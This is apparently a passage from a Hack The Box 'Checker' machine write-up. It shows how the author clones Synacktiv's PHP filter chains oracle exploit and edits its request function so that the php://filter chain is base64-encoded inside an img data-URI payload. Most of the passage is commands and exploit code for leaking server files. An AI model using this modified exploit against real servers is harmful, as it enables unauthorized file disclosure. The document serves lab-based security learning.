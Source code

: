 ### Exploit Modification

We cloned the `repository` from `GitHub` and moved to `/filters_chain_oracle/core` to modify the `requestor.py` file.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Checker/files]
└─$ git clone https://github.com/synacktiv/php_filter_chains_oracle_exploit.git
Cloning into 'php_filter_chains_oracle_exploit'...
remote: Enumerating objects: 178, done.
remote: Counting objects: 100% (178/178), done.
remote: Compressing objects: 100% (95/95), done.
remote: Total 178 (delta 89), reused 150 (delta 62), pack-reused 0 (from 0)
Receiving objects: 100% (178/178), 34.26 KiB | 626.00 KiB/s, done.
Resolving deltas: 100% (89/89), done.
```

```c
┌──(kali㉿kali)-[/media/…/files/php_filter_chains_oracle_exploit/filters_chain_oracle/core]
└─$ ls -la
total 36
drwxrwx--- 1 root vboxsf    82 Feb 24 11:46 .
drwxrwx--- 1 root vboxsf    18 Feb 24 11:46 ..
-rwxrwx--- 1 root vboxsf 16786 Feb 24 11:46 bruteforcer.py
-rwxrwx--- 1 root vboxsf  6010 Feb 24 11:46 requestor.py
-rwxrwx--- 1 root vboxsf   303 Feb 24 11:46 utils.py
-rwxrwx--- 1 root vboxsf   157 Feb 24 11:46 verb.py
```

We basically added the `base64` `decode` and `encode` part to the function `req_with_response`.

```c
<--- CUT FOR BREVITY --->
    def req_with_response(self, s):
        if self.delay > 0:
            time.sleep(self.delay)

        filter_chain = f'php://filter/{s}{self.in_chain}/resource={self.file_to_leak}'
        # DEBUG print(filter_chain)
        merged_data = self.parse_parameter(filter_chain)
        # Make the request, the verb and data encoding is defined
<--- CUT FOR BREVITY --->
```

```c
<--- CUT FOR BREVITY --->
    def req_with_response(self, s):
        if self.delay > 0:
            time.sleep(self.delay)

        php_filter = base64.b64encode(f'php://filter/{s}{self.in_chain}/resource={self.file_to_leak}'.encode()).decode()
        payload = f"<img src='data:image/png;base64,{php_filter}'/>"
        # DEBUG print(php_filter)
        merged_data = self.parse_parameter(payload)
        # Make the request, the verb and data encoding is defined
<--- CUT FOR BREVITY --->
```
